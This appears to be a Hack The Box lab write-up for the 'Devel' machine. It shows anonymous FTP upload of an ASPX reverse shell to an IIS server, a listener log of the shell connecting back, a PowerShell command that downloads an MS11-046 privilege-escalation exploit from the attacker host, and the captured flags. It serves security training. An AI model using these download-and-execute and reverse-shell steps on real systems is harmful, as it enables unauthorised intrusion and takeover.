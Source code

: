 # HTB: Devel

## Engagement Overview

**Target:** Devel
**Box IP:** 10.10.10.5
**Host IP:** 10.10.14.6
**Date:** 2025-09-27

------

### Objectives

- Enumerate services and identify misconfigurations.
- Compromise the FTP service.
- Gain initial foothold via uploaded ASPX reverse shell.
- Enumerate the system and escalate privileges with MS11-046.
- Capture `user.txt` and `root.txt`.

------

## Service Enumeration

### Nmap Results

```bash
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png

80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```

### FTP Discovery

- Anonymous login allowed with **write access** to IIS root.
- Uploaded an [ASPX reverse shell](https://gist.github.com/qtc-de/19dfc9018685fce1ba2092c8e2382a79) and executed it successfully:

```bash
Listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.5] 49169
Microsoft Windows [Version 6.1.7600]
c:\windows\system32\inetsrv>
```

------

## System Enumeration

**User Privileges**

```powershell
SeChangeNotifyPrivilege       Enabled
SeImpersonatePrivilege        Enabled
SeCreateGlobalPrivilege       Enabled
```

**System Information**

- Host: DEVEL
- OS: Windows 7 Enterprise (no patches)
- Architecture: x86 VM (VMware Virtual Platform)
- Domain: HTB
- Local user: `babis`

**Enumeration Tools**

- `winPEAS` → suggested WinPrivCheck.
- `WinPrivCheck` → suggested PrintSpoofer, but x86 binary failed.
- `Watson` (x86) → unsupported for this Windows 7 build.

At this point, leveraged known kernel exploit (MS11-046).

------

## Privilege Escalation

### MS11-046 Exploit

- Used pre-compiled binary from [abatchy17 repo](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046).
- Uploaded and executed:

```powershell
powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.6/ms11.exe','C:\tmp\ms11.exe')
C:\tmp> ms11.exe
```

**Result:**

```powershell
whoami
nt authority\system
```

**Flags:**

```powershell
c:\Users\babis\Desktop> type user.txt
04dbb55ef3ca04e4c70324f2806e2058

c:\Users\Administrator\Desktop> type root.txt
f5706205b5fc6a4276193c5c7b9ef872
```

------

## House Cleaning

- Deleted `C:\tmp\ms11.exe` and working directory.
- No persistence or artifacts left on target.

------

## Tools Utilized

- `nmap`
- `ftp`
- `winPEAS`
- `WinPrivCheck`
- `Watson`
- `MS11-046 exploit`

------

## Key Takeaways

- Anonymous FTP with upload rights is a critical misconfiguration.
- IIS root folder write access allows straightforward webshell execution.
- Windows 7 Enterprise without patches is highly vulnerable